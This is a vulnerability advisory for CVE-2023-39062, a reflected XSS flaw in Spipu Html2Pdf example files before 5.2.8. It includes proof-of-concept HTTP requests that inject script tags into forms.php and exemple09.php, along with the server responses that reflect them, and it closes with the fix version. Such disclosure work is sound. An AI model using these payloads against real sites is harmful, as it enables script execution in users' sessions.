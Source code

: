 # CVE-2023-39062
Spipu Html2Pdf < 5.2.8 - XSS vulnerabilities in example files. 

## Description

Cross-Site-Scripting (XSS) vulnerability in Spipu Html2Pdf example files. This vulnerability allows an attacker to execute untrusted JavaScript code in the context of the currently logged-in user.

The vulnerability exists in any parameter that is passed to the `example9.php` and `forms.php` example files.

Example request to `forms.php` script:
```
GET /html2pdf/examples/res/forms.php?test=abc"><script>alert(document.domain)</script> HTTP/1.1
Host: example.afine.com
Cookie: PHPSESSID=oiqo2oopiqt88teqgfb0a23vk0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/113.0
Accept-Language: pl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
```
Server response:
```
HTTP/1.1 200 OK
Server: Apache
Content-Length: 2215
Connection: close
Content-Type: text/html; charset=UTF-8

[...]

<page footer="form">
    <h1>Test de formulaire</h1><br>
    <br>
    <form action="http://example.afine.com:443/html2pdf/examples/res/forms.php?test=abc"><script>alert(document.domain)</script>">
        <input type="hidden" name="test" value="1">

[...]
```

Example request to `example9.php` script:
```
GET /html2pdf/examples/exemple09.php?test=/"><script>alert(document.domain)</script>abc/?nom=1 HTTP/1.1
Host: example.afine.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
```

Server response:
```
HTTP/1.1 200 OK
Date: Sat, 08 Jul 2023 18:32:51 GMT
Server: Apache
X-Powered-By: PHP/7.4.8
Content-Length: 795
Connection: close
Content-Type: text/html; charset=UTF-8

[...]

<body>
<br>
Ceci est un exemple de génération de PDF via un bouton :)<br>
<br>
<img src="http://example.afine.com/html2pdf/examples/exemple09.php?test=/"><script>alert(document.domain)</script>abc/res/exemple09.png.php?px=5&amp;py=20" alt="image_php" ><br>
<br>
<br>
        <form method="get" action="">

[...]
```

This issue was caused by a lack of sanitization of the provided request parameters. This problem has been fixed in Spipu Html2Pdf version 5.2.8.

## Affected versions
< 5.2.8 

## Advisory
Update Spipu Html2Pdf to 5.2.8 or newer.

### References
* https://github.com/spipu/html2pdf/blob/92afd81823d62ad95eb9d034858311bb63aeb4ac/CHANGELOG.md
* https://nvd.nist.gov/vuln/detail/CVE-2023-39062
